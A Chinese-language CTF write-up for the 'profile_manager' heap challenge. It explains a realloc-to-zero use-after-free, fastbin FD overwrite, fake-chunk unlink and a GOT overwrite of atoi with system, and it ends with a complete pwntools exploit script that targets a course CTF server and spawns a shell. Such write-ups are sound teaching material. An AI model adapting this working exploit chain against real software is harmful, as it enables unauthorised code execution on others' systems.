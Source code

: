 ## profile_manager
### solution
本題沒有什麼能利用的overflow，但`edit_profile`存在漏洞，如下
```c
void edit_profile(){
...
		read(0,buf,16);
		tmp = realloc(p[idx].name,strlen(buf));
		if(!tmp){
			puts("Realloc Error !");
			return ;
		}
```
若是直接傳`"\x00"`可使`strlen(buf)`為0，導致`realloc()`的size為0，則會使`p[idx].name`被`free()`，而此處直接return所以`p[idx].name`並不會被清0，成為dangling pointer。

接著，此時被free的chunk已經進入fastbin中，但我們再次呼叫`edit_profile()`，`realloc()`檢查chunk size發現足夠後並不會重新allocate，因此我們可以仍然可以對`p[idx].name`進行寫入，達到overwrite fastbin link中的`FD`的效果。

利用overwrite fastbin link，我們可以先將兩塊fake chunk寫在descrption中，再使`FD`指向第二塊fake chunk，之後即可allocate拿到該chunk進行unlink。

```
        |-----------|
desc -> | prev_size |
        |    size   |
        |    ...    |
        | prev_size2| <- FD <- fastbin
        |    size2  |
        |-----------|
```
接著必須確定以下資訊：
* heap base
FD必須寫為fake chunk的位址，而fake chunk在heap上，因此必須知道heap base。

類似overwrite FD的道理，我們可以透過free構造fastbin list，使得dangling pointer指向fastbin中的`FD`，即可用`show_profile`將其print出來，再計算出heap base。
需要注意的是不能使dangling指向`p[0]->name`，因為結尾必定是`"\x00"`導致無法print。exploit中是構造`fastbin->chunk0->chunk1`的list，再以`show_profile`讀取chunk0的`FD`(=&chunk1)。

* unlink target
因為`edit_profile`中能修改`desc`的code如下，若是指向的空間一開始即為0則無法寫入任何資料。
```c
read(0, p[idx].desc, strlen(p[idx].desc));
```

由於fake chunk寫在descrption內，target必定是`profile[i]->desc`，unlink後target會指向自己-0x18，而若是以`p[0]->desc`為目標，則會指向到heap下方一小塊全部為0的space。

因此必須選擇`i = 1`以上，則`p[i].desc -> p[i-1].desc`，此時裡面的內容為其他的heap address，至少為3bytes，我們即可將其蓋為`atoi@got`。

成功將desc蓋為`atoi@got`之後，先以`show_profile` leak出libc位址，接著計算出`system`後再同樣以`edit_proflie`寫入，最後在選單輸入`sh`即可拿到shell。

整理步驟為：
1. 構造fastbin list同時寫入fake chunks，leak heap
2. 使fastbin list中的FD指向fake chunk2
3. allocate拿到fake chunk2
4. 對fake chunk2進行unlink，此時某個desc指向前一個desc
5. 將其內容寫為`atoi@got`，再以`show_profile` leak libc
6. 以`edit_profile`將`atoi@got`寫為`system`

### script
```python
#!/usr/bin/env python3
from pwn import *

context(arch="amd64")

#r = process("profile_manager")
binary = ELF("profile_manager")
libc = ELF("libc.so.6")
r = remote("csie.ctf.tw", 10140)

def send(s):
    r.recvuntil(":")
    r.send(s)

def add_profile(name, age, length, desc):
    send("1")
    send(name)
    send(str(age))
    send(str(length))
    send(desc)

def show_profile(idx):
    send("2")
    send(str(idx))

def edit_profile(idx, name, age, desc):
    send("3")
    send(str(idx))
    send(name)
    if name == "\x00":
        return
    send(str(age))
    send(desc)

def del_profile(idx):
    send("4")
    send(str(idx))

target = binary.symbols[b'p'] + 0x28
chunk = p64(0) + p64(0x71) # size + prev_size
chunk += p64(target - 0x18) + p64(target - 0x10) #fd, bk
chunk += b"a" * 0x50
chunk += p64(0x70) + p64(0x20) # prev_size, size(fastbin)

# alloc chunk0, 1
# free chunk1, 0
# fastbin -> chunk0 -> chunk1
add_profile("X", 0x87, 0x90, "aaaa")
add_profile("X", 0x87, 0x90, chunk)
edit_profile(1, "\x00", 0, 0)
edit_profile(0, "\x00", 0, 0)

# leak chunk1, compute heapbase
show_profile(0)
r.recvuntil("Name : ", drop=True)
heapbase = u64(r.recvuntil("\n", drop=True).ljust(8, b'\x00')) - 0xc0
r.recvuntil("Desc : ")

# fastbin -> chunk0 -> fakechunk(base+0x160)
edit_profile(0, p64(heapbase + 0x160), 0x33, "cccc")

# alloc p[2].name = chunk0
# fastbin -> fakechunk
add_profile("X", 0x87, 0x90, "bbbb")
# alloc p[3].name = fakechunk
add_profile("X", 0x87, 0x90, "dddd")
# unlink(p[3].name)
del_profile(3)
# now, p[1].desc -> p[0].desc
# make p[0].desc = atoi@got
edit_profile(1, "66666", 0x33, p64(binary.got[b'atoi']))
# leak atoi, compute system
show_profile(0)
r.recvuntil("Desc : ", drop=True)
atoi = u64(r.recv(6).ljust(8, b'\x00'))
system = atoi - libc.symbols[b'atoi'] + libc.symbols[b'system']
# make atoi@got = system
edit_profile(0, "X", 0x87, p64(system))

r.interactive()
# run sh
```
